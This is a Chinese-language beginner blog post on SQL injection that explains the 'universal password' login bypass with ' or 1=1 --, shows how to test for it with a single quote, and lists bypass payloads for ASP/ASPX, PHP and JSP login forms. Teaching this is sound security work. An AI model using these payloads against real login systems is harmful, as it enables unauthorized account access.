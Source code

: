```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（二）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-06-25 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


## OR 漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL 查询语句为

```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```

而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```

 

此时的效果是用户名为 null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条 SQL 查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自 [chengker](http://chengkers.lofter.com/post/14c64b_379726) 的博客

### ASP ASPX 万能密码

> - "or"a"="a
> - ')or('a'='a
> - or 1=1--
> - 'or 1=1--
> - a'or' 1=1--
> - "or 1=1--
> - 'or'a'='a
> - "or"="a'='a
> - 'or''='
> - 'or'='or'
> - 1 or '1'='1'=1
> - 1 or '1'='1' or 1=1
> - 'OR 1=1%00
> - "or 1=1%00
> - 'xor
> - 用户名'UNION Select 1,1,1 FROM admin Where''=' （替换表名 admin） 密码 1
> - ..admin'or'a'='a 密码随便

### PHP 万能密码

> - 'or 1=1/*
> - User: something
> - Pass: 'or'1'='1

### JSP 万能密码

> - 1'or'1'='1
> - admin' or 1=1/*